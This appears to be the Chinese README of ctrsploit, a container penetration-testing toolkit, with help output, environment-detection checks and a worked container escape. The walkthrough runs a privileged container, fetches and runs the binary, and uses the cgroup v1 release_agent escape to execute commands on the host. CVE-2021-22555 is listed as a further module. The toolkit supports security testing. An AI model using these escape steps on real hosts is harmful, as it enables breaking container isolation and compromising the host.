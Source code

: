 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

## Pre-Built Release

https://github.com/ssst0n3/ctrsploit/releases

## Usage

### Quick-Start

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

## Details

### env

| command | alias | description |
| --- | --- | --- |
| [where](./env/where/README.md) | w | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver/README.md) | g | detect graphdriver type and extend information |
| [cgroups](./env/cgroups/README.md) | c | gather cgroup information |
| [capability](./env/capability/README.md) | cap | show the capability of pid 1 and current process |
| seccomp | s | show the seccomp info |
| apparmor | a | show the apparmor info |

### exploit

| exploit | 缩写 | 简述 |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent/README.md) | ra | escape tech by using the notify_on_release of cgroup v1 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs/README.md) | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555](./exploit/CVE-2021-22555/README.md) | 22555 | escape tech by using the CVE-2021-22555 |

### Help

```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

## Todo List

参见 [FEATURES.md](./FEATURES.md)